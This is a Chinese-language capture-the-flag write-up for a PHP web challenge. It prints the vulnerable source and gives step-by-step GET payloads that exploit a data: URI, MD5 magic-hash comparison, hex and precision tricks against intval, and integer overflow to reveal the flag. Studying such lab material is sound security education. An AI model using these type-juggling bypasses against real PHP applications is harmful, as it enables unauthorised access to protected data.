


## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们点击`Source Code`可以直接看到php主要逻辑代码：

```php
<?php    
highlight_file(__FILE__);
    @$k1=$_GET['key1'];
    @$k2=$_GET['key2'];
    if(@file_get_contents($k1)==="Hello hacker!"){
        echo 'welcome! Hacker!<br>';
        if(md5($k2)>666666*666666)
        {
            include('flag.php');
            @$k3=$_GET['key3'];
            @$k4=$_GET['key4'];
            if(intval($k3)<666)
            {
                if($k3==666)
                {
                    echo 'Come on, flag is coming<br>';
                    if($k4>0)
                    {
                        if(intval($k3+$k4)<666)
                            echo $flag;
                    }
                }
            }else{
                exit();
            }
        }else{
            exit();
        }
    }else{
        exit();
    }
?>
```

3.每次修改传参，循序渐进即可拿到flag, 花式绕过php的各种限制 首先需要满足key1, key1 会使用`file_get_contents()`函数去取网页的内容，注意到Headers是这个样子的

```php
HTTP/1.1 200 OK
Date: Sat, 23 Dec 2017 08:21:16 GMT
Server: Apache
luck: hellohacker.php
Content-Length: 545
Connection: close
Content-Type: text/html
```

里面有一行`luck: hellohacker.php`， 打开看就是他需要`file_get_contents`获取到的文本的内容，最开始包含这个文件，始终不行，看下源码可以知道后面还有一个注释233333， 那么可以试试文件包含暴力把需要的文本放进去，直接用`data:text/plain`传过去，因为有符号之类的会比较麻烦，所以base64之后传进去， 过key1的payload如下

`/challenge23.php?key1=data:text/plain;base64,SGVsbG8gaGFja2VyIQ==`

根据回显可以得知需要传key2了，要求是key2的md5的值要大于`666666*666666`，我的思路是 那么直接找一个字符串，散列值全是数字的即可，写一个python脚本跑了一下, 找到了`1518375`, `md5`散列值为`93240121540327474319550261818423` 传进去即可。厦大的师傅们用了字符串`skwerl11`， 他的md5值是`1e21ff98693770b768e4a1a4a704811b`, `1e`是科学计数法，php在比较字符串和数字的时候会把字符串转化为数字，直到遇到不是`0-9`的值就会停止，所以这里会转化成1e21也就是`1*10^21`，要找到这个字符串只有php能最快搞定, py是不懂php的黑了

过key2 的payload如下

`/challenge23.php?key1=data:text/plain;base64,SGVsbG8gaGFja2VyIQ==&key2=1518375`

下面是key3, 他是需要key3的值转换成int之后小于666, 同时需要原始的值等于666， 自然想到了精度绕过，于是传了个`665.99999`记不清有多少个9了，由于的传的9不够，所以没过，厦大师傅是用的精度绕过，传值`665.99999999999999`。

机智的misc手说可以用16进制，然后输入了`0x29a`，搞定key3

过key3的payload如下

`/index.php?key1=data:text/plain;base64,SGVsbG8gaGFja2VyIQ==&key2=1518375&key3=0x29a`

最后一个是key4, 之前在文档看到了intval的表达范围是有限制的，取决于操作系统，所以用了溢出,溢出的结果参考[这里](http://php.net/manual/zh/language.types.integer.php#language.types.integer.casting "http://php.net/manual/zh/language.types.integer.php#language.types.integer.casting")

所以最终payload如下

`/challenge23.php?key1=data:text/plain;base64,SGVsbG8gaGFja2VyIQ==&key2=1518375&key3=0x29a&key4=999999999999999999999999999999999999999999999999996666`

4.获取flag：


